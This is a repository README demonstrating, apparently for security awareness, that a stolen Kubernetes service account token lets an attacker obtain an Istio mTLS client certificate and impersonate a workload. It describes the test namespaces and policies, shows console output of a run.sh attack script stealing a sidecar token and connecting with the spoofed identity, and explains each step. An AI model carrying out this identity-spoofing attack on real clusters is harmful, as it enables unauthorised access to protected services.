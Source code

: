 # Generating Istio mTLS Client Certs Using Stolen Credentials

Istio service mesh encrypts traffic and validates workload identity using mTLS. In order to populate the sidecar proxies with keys for this use case, the istiod controller contains a certificate authority called citadel, which the sidecar proxies call home to on startup to request client certs. Like many Kubernetes native technologies, access to citadel requires the caller to present a valid Kubernetes service account token. No token, no mTLS client cert.

It is well understood in many contexts that security account tokens should be protected, but (in my experience) it does not seem to be well understood that access to a security account token == ability to spoof identity in the service mesh.

This repo demonstrates the situation.

### Test Setup

The setup contains two namespaces. In the secure namespace is a deployment and service called "victim", and a deployment called "legitclient". An Istio `PeerAuthentication` resource requires all traffic bound for pods in this namespace to be mTLS encrypted (cleartext traffic will be rejected by the sidecar proxies on these pods) and an Istio `AuthorizationPolicy` requires all traffic destined for the "victim" workloads to be identified by the SPIFFE identity `spiffee://cluster.local/ns/secure/sa/legitclient`, which can be read as "this request is coming from the 'secure' namespace and the requesting pod is using the 'legitclient' Kubernetes service account". See [secure.yaml](secure.yaml) and references below for specifics.

![x](foo.png)

### Running The Test

#### Requirements
- a running cluster / valid kubeconfig
- `istioctl install -y` (tested on 1.14 - 1.16)
- openssl
- jq
- [grpcurl](https://github.com/fullstorydev/grpcurl)


#### Do it already!

``` console
$ ./run.sh
 ==  deleting previously generated key and signing request
 ==  deleting previously stolen client cert
 ==  generating a random key and signing request
Generating a 2048 bit RSA private key
..................................+++++
.....................................................................................................................................................................................+++++
writing new private key to 'istio-attack.key'
-----
 ==  'stealing' the service account token from the sidecar proxy of a legit client pod
Forwarding from 127.0.0.1:15012 -> 15012
Forwarding from [::1]:15012 -> 15012
 ==  using service account "legitclient" in namespace "secure" to ask istiod/citadel for a client cert
Handling connection for 15012
./run.sh: line 43: 92868 Terminated: 15          kubectl port-forward svc/istiod -n istio-system 15012:15012
 ==  confirmed that the modulus of our private key matches the modulus of our stolen cert
 ==  istiod has successfully issued us an mTLS client cert!
 ==  copying private key and stolen client cert into attack pod
 ==  attempting to connect to victim service from the attack pod without using stolen credentials
 ==  (we expect connection will fail: reset by peer)
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
curl: (56) Recv failure: Connection reset by peer
command terminated with exit code 56

 ==  attempting to connect to victim service from the attack pod using stolen credentials
 ==  (we expect connection will succeed)
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0{
  "headers": {
    "Accept": "*/*",
    "Host": "victim.secure:80",
    "User-Agent": "curl/7.68.0",
    "X-B3-Sampled": "1",
    "X-B3-Spanid": "84f811a00cada672",
    "X-B3-Traceid": "729bc7a2f7786adb84f811a00cada672",
    "X-Forwarded-Client-Cert": "By=spiffe://cluster.local/ns/secure/sa/default;Hash=08e34416bbb9cdcbf0fe6f83c123f664cd4c9b5bfabd1eea558a80a307f1abad;Subject=\"\";URI=spiffe://cluster.local/ns/secure/sa/legitclient"
  }
}
100   450  100   450    0     0  21428      0 --:--:-- --:--:-- --:--:-- 21428
```

#### What is happening?

When the script executed the following steps will take place:
1. a new private key and certificate signing request will be generated
1. the service account token from the sidecar container of the legitclient pod will be "stolen"
1. the stolen service account token will be used to send the csr to istiod/citadel asking for a signed mTLS client certificate
1. citadel will accept the stolen token and sign the csr, returning an mTLS client certificate with the identity data populated by the claims present in the stolen token
1. we will attempt to plaintext curl the victim service from within the attack pod in the attack namespace, since mTLS is required this connection will be rejected by the receiving sidecar proxy on the victim pod (reset by peer)
1. we will attempt to curl the victim service from within the attack pod in the attack namespace, but this time using the private key and signed client certificate, which will be authenticated by the receiving sidecar proxy on the victim pod, and a connection established using the identity of the legitclient in the secure namespace.

Note that upon successful authentication of a valid inbound mTLS connection, the istio-proxy will populate an HTTP response header called `X-Forwarded-Client-Cert` (or "XFCC") with both the receiving / server side identity (indicated with "By=spiffe...") and the sending / client side identity (indicated with "URI=spiffe..."). By examining this header you can verify that the connection was established using the stolen identity.

### References

https://istio.io/latest/docs/reference/config/security/authorization-policy/#Source
https://github.com/istio/istio/blob/master/pkg/istio-agent/README.md
https://www.envoyproxy.io/docs/envoy/latest/configuration/http/http_conn_man/headers#x-forwarded-client-cert
